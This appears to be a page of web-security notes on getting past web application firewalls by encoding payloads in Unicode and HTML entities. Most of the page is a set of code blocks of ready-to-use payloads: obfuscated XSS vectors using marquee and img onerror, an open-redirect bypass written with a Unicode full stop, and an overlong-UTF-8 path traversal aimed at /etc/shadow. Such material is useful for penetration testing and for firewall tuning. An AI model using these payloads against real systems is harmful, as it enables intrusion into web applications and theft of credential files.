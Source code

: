 ### Unicode&#x20;

{% hint style="info" %}
* **ASCII** characters in Unicode encoding give us great variants for bypassing WAF.
* **Encode entire or part** of the payload for obtaining results.
{% endhint %}

#### Examples

```
# basic request
<marquee onstart=prompt()>

# obfuscated
<marquee onstart=\u0070r\u06f\u006dpt()>

# blocked by waf
/?redir=http://google.com

# bypassed
/?redir=http://google。com (Unicode alternative)

# blocked by waf
<marquee loop=1 onfinish=alert()>x

# bypassed
＜marquee loop＝1 onfinish＝alert︵1)>x (Unicode alternative)

# basic request
../../etc/shadow

# obfuscated
%C0AE%C0AE%C0AF%C0AE%C0AE%C0AFetc%C0AFshadow
```

### HTML Representation

{% hint style="info" %}
* WebApps encode special characters into HTML. Encoding and render them accordingly.
* Basic bypass cases with HTML encoding numeric and generic.
{% endhint %}

#### Examples

```
# basic request
"><img src=x onerror=confirm()>

# encoded payload
&quot;&gt;&lt;img src=x onerror=confirm&lpar;&rpar;&gt; 
# or
&#34;&#62;&#60;img src=x onerror=confirm&#40;&#41;&#62; 
```
